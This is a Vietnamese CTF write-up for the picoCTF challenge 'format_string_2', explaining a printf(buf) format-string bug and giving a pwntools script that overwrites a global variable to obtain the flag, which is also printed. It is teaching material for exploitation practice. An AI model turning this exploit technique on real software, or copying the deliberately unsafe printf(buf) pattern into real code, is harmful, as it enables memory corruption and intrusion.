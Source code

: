 # Format_string_2
Giống như các bài `format_string` trước đó, ở challenge này ta cũng có 2 file, một file binary `vuln` và file .c `vuln.c`.

Mở file `vuln.c` ra ta có source code của challenge này như sau:

``` c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

Như tên của challenge `format_string` thì ta thấy đoạn code của chương trình này có một lỗi `format_string` ở dòng:

``` c
printf(buf);
```

Nhìn xuống một xíu thì ta thấy cách để lấy flag của challenge này:

``` c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```

Mục tiêu của chúng ta bây giờ sẽ là làm cho biến `sus` từ `0x21737573` thành `0x67616c66`.

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ biến `sus` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![image](https://github.com/user-attachments/assets/a609843c-f862-4a2e-99c2-eb27cca1917b)

Tìm hiểu đôi chút cùng ChatGPT, tôi đã được biết rằng trong thư viện `pwntools`, class `FmtStr` có một tính năng là tự động dò tìm offset của format-string. 

`FmtStr` sẽ tự động gửi payload thử nghiệm, dựa trên phản hồi từ server, tìm ra offset phù hợp mà ta có thể dùng để viết giá trị lên các địa chỉ mong muốn. Khi khởi tạo `FmtStr(exec_fmt)`, pwntools sẽ gọi hàm `exec_fmt` nhiều lần với các payload khác nhau để tìm offset.

Xem chi tiết hơn về chức năng này của `FmtStr` tại đây: [LINK](https://docs.pwntools.com/en/stable/fmtstr.html)

Giờ ta chỉ cần sử dụng tính năng này vào việc ghi đè địa chỉ `0x404060` (biến `sus`) với giá trị là `0x67616c66`.

Từ những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

context.log_level = "debug"
context.binary = ELF('./vuln')
p = remote('rhea.picoctf.net', 52725)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 52725)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```
